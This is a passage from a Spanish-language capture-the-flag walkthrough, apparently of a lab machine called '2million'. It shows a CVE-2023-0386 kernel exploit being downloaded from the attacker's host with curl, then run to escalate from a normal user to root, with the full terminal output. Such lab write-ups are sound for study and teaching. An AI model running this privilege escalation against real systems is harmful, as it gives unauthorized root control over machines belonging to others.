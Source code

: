 Con el tar, lo trasnfiero a la maquina victima con un servidor de python `python3 -m http-server 80`
```bash
$: curl http://10.10.15.20/2023.tar.gz > 2023.tar.gz
$: tar -zcvf 2023.tar.gz CVE-2023-0386
CVE-2023-0386/
CVE-2023-0386/Makefile
...
admin@2million:~$ cd CVE-2023-0386
```
Seguimos las instrucciones y escalamos a root.
```bash
admin@2million:~/CVE-2023-0386$ ./fuse ./ovlcap/lower ./gc
[+] len of gc: 0x3ee0
mkdir: File exists
fuse: mountpoint is not empty
fuse: if you are sure this is safe, use the 'nonempty' mount option
fuse_mount: File exists

admin@2million:~/CVE-2023-0386$ ./exp
uid:1000 gid:1000
[+] mount success
total 8
drwxrwxr-x 1 root   root     4096 Jan  8 19:02 .
drwxr-xr-x 6 root   root     4096 Jan  8 19:02 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@2million:~/CVE-2023-0386# sudo whoami
root
```
